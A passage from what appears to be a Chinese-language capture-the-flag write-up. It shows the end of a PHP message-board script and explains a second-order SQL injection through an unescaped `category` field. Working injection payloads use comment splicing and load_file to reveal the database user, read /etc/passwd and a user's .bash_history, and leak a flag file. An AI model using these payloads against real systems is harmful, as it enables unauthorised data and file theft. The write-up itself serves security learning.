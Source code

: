 ```php
    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```


插入数据时进行转义，但获取 `category` 时没有转义直接拼接到了 sql 语句中执行，因此可以二次注入。

首先是发帖，设置 `category` 为 `', content=user(),/*`，那么 sql 语句变成
```sql
insert into board set category = '', content=user(),/*', title ='1', content ='2'
```

然后评论 `*/#`，sql 语句为：
```sql
insert into comment set category = '', content=user(),/*', content ='*/#', bo_id ='1'
```

则评论内容中就会显示当前用户为 `root`，随后查看 `/etc/passwd` 发现存在 `www` 用户，再查看 `/home/www/.bash_history` 发现存在 `.DS_Store` 文件。

随后查看 `.DS_Store` 文件：
```
',content=(select hex(load_file('/tmp/html/.DS_Store'))),/*
```

解码得到 `flag` 文件名：`flag_8946e1ff1ee3e40f.php`。同样方法读取即可。